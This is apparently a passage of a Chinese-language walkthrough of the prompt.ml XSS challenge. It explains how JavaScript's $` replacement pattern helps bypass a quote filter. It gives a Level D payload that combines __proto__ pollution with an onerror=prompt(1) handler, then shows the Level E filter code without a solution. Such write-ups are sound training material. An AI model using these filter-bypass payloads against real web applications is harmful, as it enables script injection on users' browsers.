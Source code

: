 replace中使用$`会将变量的前部插入。

在这里就是`<img src="`，借用这个虽然playad结构改变,但是绕过了`"`

## Solutions:

```
1.{"source":"*","__proto__":{"source":"$`onerror=prompt(1)>"}}
```





## Img:

1.

```
{"source":"*","__proto__":{"source":"$`onerror=prompt(1)>"}}
```

![D_3](/img/xss/prompt_ml/levelD_003.png)

# Level E

## Code:

```
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');

    return '<img src="' + input + '">';
}        
```
